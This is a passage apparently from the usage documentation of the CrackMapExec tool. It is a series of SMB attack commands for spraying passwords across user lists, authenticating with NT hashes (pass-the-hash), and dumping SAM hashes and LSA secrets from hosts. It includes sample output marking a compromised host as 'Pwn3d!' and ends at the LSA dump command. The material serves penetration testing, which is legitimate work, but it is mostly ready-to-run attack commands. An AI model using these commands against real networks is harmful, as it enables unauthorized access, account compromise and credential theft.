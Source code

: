 #~ cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18
#~ cme smb 192.168.1.101 -u user1 -p password1 password2 password3
```

CME accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18
#~ cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

*Note*: By default CME will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list Usage example:

```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

---

# Authentication/Checking credentials (Local)

Adding --local-auth to any of the authentication commands with attempt to logon locally.

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth
#~ cme smb 192.168.1.0/24 -u '' -p '' --local-auth
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --local-auth
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH' --local-auth
#~ cme smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
#~ cme smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
```

Results will display the hostname next to the user:password

```
	SMB         192.168.1.101    445    HOSTNAME          [+] HOSTNAME\Username:Password (Pwn3d!)  
```

---


# Obtaining Credentials


The following examples use a username and plaintext password although user/hash combos work as well.

*Requires Local Admin  
***Requires Domain Admin or Local Admin Priviledges on target Domain Controller

## *Dump SAM hashes using methods from secretsdump.py


```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

## *Dump LSA secrets using methods from secretsdump.py


```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa